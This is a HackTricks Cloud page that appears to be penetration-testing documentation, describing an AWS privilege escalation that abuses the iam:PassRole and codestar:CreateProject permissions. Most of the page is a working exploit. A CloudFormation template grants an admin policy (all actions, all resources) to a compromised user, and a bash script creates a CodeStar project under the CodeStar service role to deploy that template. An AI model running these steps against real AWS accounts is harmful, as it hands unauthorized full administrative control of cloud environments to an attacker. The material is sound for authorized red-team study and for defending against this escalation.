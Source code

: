 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**.

To exploit this you need to create a **S3 bucket that is accessible** from the attacked account. Upload a file called `toolchain.json` . This file should contain the **cloudformation template exploit**. The following one can be used to set a managed policy to a user under your control and **give it admin permissions**:

{% code title="toolchain.json" %}
```json
{
    "Resources": {
        "supercodestar": {
            "Type": "AWS::IAM::ManagedPolicy",
            "Properties": {
                "ManagedPolicyName": "CodeStar_supercodestar",
                "PolicyDocument": {
                    "Version": "2012-10-17",
                    "Statement": [
                        {
                            "Effect": "Allow",
                            "Action": "*",
                            "Resource": "*"
                        }
                    ]
                },
                "Users": [
                    "<compromised username>"
                ]
            }
        }
    }
}
```
{% endcode %}

Also **upload** this `empty zip` file to the **bucket**:

{% file src="../../../../.gitbook/assets/empty.zip" %}

Remember that the **bucket with both files must be accessible by the victim account**.

With both things uploaded you can now proceed to the **exploitation** creating a **codestar** project:

```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
    {
        \"source\": {
            \"s3\": {
                \"bucketName\": \"privesc\",
                \"bucketKey\": \"empty.zip\"
            }
    },
        \"destination\": {
            \"codeCommit\": {
                \"name\": \"$PROJECT_NAME\"
            }
        }
    }
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
    \"source\": {
        \"s3\": {
            \"bucketName\": \"privesc\",
            \"bucketKey\": \"toolchain.json\"
        }
    },
    \"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME \
    --source-code file://$SOURCE_CODE_PATH \
    --toolchain file://$TOOLCHAIN_PATH
```

This exploit is based on the **Pacu exploit of these privileges**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) On it you can find a variation to create an admin managed policy for a role instead of to a user.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
